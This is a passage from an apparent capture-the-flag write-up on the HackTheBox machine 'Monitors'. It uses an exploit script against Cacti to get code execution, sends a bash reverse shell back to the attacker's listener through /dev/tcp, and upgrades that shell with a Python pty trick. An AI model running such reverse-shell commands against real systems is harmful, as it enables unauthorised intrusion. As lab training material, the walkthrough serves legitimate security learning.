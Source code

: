 There are two pings at `tcpdump`:

```

07:17:32.695990 IP monitors.htb > 10.10.14.7: ICMP echo request, id 6432, seq 1, length 64
07:17:32.696070 IP 10.10.14.7 > monitors.htb: ICMP echo reply, id 6432, seq 1, length 64
07:17:33.697849 IP monitors.htb > 10.10.14.7: ICMP echo request, id 6432, seq 2, length 64
07:17:33.697895 IP 10.10.14.7 > monitors.htb: ICMP echo reply, id 6432, seq 2, length 64

```

### Shell

The script actually works as is to get a Bash reverse shell:

```

oxdf@parrot$ python3 rce.py 'bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"'
[+] Got CSRF: sid:639ec65d813f5784fe4bb82daad753ff2561d247,1619176753;ip:a92d67e8550d3415eb2ab371711c94fa01ef2005,1619176753
[+] Logged in with cookie: 9pl7kv48dc195jkqcon9v3tvs1
[+] Uploaded payload

```

At this point it hangs, but at a `nc` listener:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 38374
bash: cannot set terminal process group (1504): Inappropriate ioctl for device
bash: no job control in this shell
www-data@monitors:/usr/share/cacti/cacti$

```

I’ll use the standard Python PTY trick to upgrade the shell:

```

www-data@monitors:/usr/share/cacti/cacti$ python3 -c 'import pty;pty.spawn("bash")'
<ti/cacti$ python3 -c 'import pty;pty.spawn("bash")'
www-data@monitors:/usr/share/cacti/cacti$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@monitors:/usr/share/cacti/cacti$

```

## Shell as marcus
*Actually getting to Marcus is not at all necessary to root the box. I’ll use SSH port forwarding as marcus in the next step, but that could easily be [Chisel](https://github.com/jpillora/chisel) as www-data to the same end.*
